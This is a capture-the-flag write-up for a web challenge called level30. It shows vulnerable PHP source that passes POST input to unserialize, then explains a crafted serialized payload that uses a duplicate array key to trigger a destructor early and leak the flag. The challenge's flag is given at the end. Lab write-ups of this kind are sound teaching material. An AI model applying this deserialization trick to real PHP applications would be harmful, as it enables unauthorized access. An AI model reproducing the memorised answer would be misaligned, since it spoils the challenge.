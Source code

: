 ```yaml
---
layout: default
title: level30
---
```


In this challenge we need to exploit `unserialize`.

This is the source code:
```php
<?php
class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

if (isset($_POST['payload'])) {
    ob_start();
    $a = unserialize($_POST['payload']);
    if ($a === False) {
        ob_end_clean();
    }
    throw new Exception('Something tragic happened');
}
?>
```

The default payload is: `O:1:"B":0:{}`, which should echo the flag, because the class B should get destructed at the end.

However, it doesn't because the function `ob_start()`, which basically stops output from being showed (at least the what is being printed using echo). 

Our only way is if it'll enter the `if` statement, and call `ob_end_clean()` to disable the output buffering.

So, we need 2 things:
* call `ob_end_clean()`, means that `$a` will be false
* summon the `__destruct` before Exception being thrown.

We can use this payload to achieve that:
```php
a:2:{i:0;O:1:"B":0:{}i:0;i:1337;}
```

This is an array that should have two objects inside him, class B and int which equals 1337.

However, as we can see, the second index isn't 1, rather 0, so it overrides the first cell in the array, and then the destructor is being called immidittaly.

In addition, this should return false, because it fails... So, we maid it.


Notice that the `;` isn't here `"B":0:{}i:0`, between the `{}` and `i`. This is important, without that it won't work, i'm not sure why, i tried with [4v3l.org](https://3v4l.org/lbKBF) to runs snippet of codes and it worked also with `;`


![FINAL](./images/level30_FINAL.png)

**Flag:** ***`WWEBSEC{Cheers_to_ambionics_and_to_php35c3ctf}`*** 
